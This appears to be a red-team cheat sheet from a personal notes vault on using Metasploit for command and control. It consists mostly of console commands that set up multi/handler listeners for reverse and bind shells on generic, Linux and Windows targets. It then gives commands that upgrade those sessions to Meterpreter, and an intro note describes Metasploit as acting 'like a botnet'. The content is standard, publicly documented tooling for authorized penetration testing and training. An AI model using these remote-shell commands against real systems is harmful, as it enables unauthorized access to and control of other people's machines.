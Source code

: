 ```yaml
---
author(s):
  - Userware
tags:
  - metasploit-framework
  - command-and-control
  - living-off-the-land
---
```

# Metasploit

Search Tag(s): #metasploit-framework #command-and-control #living-off-the-land

> [!NOTE]
>  You can use regular one-liners or create your own custom regular payloads. Metasploit acts like a botnet so use it more often. Further more, you can use the [[05 - Red Team Infrastructure/B - Command and Control/0x00 - Metasploit/Interactive Shell/Meta Shell/Usage|meta shell's]] `resource` to automate commands in a faster pace. Look more in [[Resource|here]].

## 01 - Multi Handler

### 1.1 - Setting up a Generic TCP listener

#### 1.1.1 - Reverse Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload generic/shell_reverse_tcp

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

#### 1.1.2 - Bind Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload generic/shell_bind_tcp

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

### 1.2 - Setting up a Linux TCP listener

#### 1.2.1 - Reverse Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload linux/x64/shell_reverse_tcp

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

#### 1.2.2 - Bind Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload linux/x64/shell_bind_tcp

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

### 1.3 - Setting up a Windows TCP listener

#### 1.3.1 - Reverse Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp

msf exploit(multi/handler) > set lhost <IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

#### 1.3.2 - Bind Callback

```
msf > use exploit/multi/handler

msf exploit(multi/handler) > set payload windows/x64/shell_bind_tcp

msf exploit(multi/handler) > set rhost <target_IP>

msf exploit(multi/handler) > set lport <PORT>

msf exploit(multi/handler) > run -j
```

## 02 - Upgrade to Meterpreter Session

Another benefit is by converting regular shells to meterpreter whenever in various circumstances that you might need it.

```
msf > use post/multi/manage/shell_to_meterpreter

options

set session <session_ID>

set technique <powershell | vbs>

set payload_override windows/meterpreter/reverse_tcp

set platform_override windows

set psh_arch_override x64

run
```

Here's a shorter command.

```
msf > sessions -u <session_ID>
```

---
## References

- [Rapid7: Metasploit Framework - Upgrading shells to Metepreter](https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html)

- [Hacking Articles: How to Upgrade Command Shell to Meterpreter](https://www.hackingarticles.in/command-shell-to-meterpreter/)